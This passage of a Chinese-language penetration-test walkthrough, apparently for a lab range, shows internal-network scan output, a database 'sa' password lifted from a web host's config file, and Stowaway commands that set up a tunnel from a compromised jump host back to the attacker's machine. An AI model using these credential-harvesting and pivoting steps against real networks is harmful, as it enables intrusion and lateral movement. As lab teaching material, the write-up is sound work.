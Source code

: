 ```text
   [->]12server-data1
   [->]192.168.22.133
   [->]192.168.31.62
[*] NetInfo:
[*]192.168.22.1
   [->]Liu
   [->]192.168.110.1
   [->]10.10.10.1
   [->]192.168.52.1
   [->]192.168.93.1
   [->]192.168.111.1
   [->]192.168.31.42
   [->]192.168.22.1
   [->]172.28.96.1
   [->]172.26.0.1
   [->]192.168.74.1
[*] NetBios: 192.168.22.128  WORKGROUP\12server-web1             Windows Server 2012 R2 Standard 9600
[*] WebTitle: http://192.168.22.133     code:404 len:315    title:Not Found
[*] WebTitle: http://192.168.22.129     code:200 len:4301   title:演示：JWT实战：使用axios+PHP实现登录认证
[*] NetBios: 192.168.22.1    WORKGROUP\LIU                 
[*] NetBios: 192.168.22.133  WORKGROUP\12server-data1            Windows Server 2012 R2 Standard 9600
[*] NetBios: 192.168.22.129  12server-web2.ack123.com            Windows Server 2012 R2 Standard 9600
```

发现`Server-Data1`存在`MSSQL`服务，在`Server-Web1`主机的`C:\Hws.com\HwsHostMaster\wwwroot\www.ackmoon.com\web\HdhApp.config`文件中找到`MSSQL`的配置信息。

```
192.168.22.133
sa/pass123@.com
```

![](./images/11.png)

利用`Stowaway`进行代理，利用`Navicat`连接上数据库。

```
# 攻击机
./macos_arm64_admin -l 9999 -s H3rmesk1t
# 跳板机
agent.exe -c "192.168.31.206:9999" -s H3rmesk1t
```
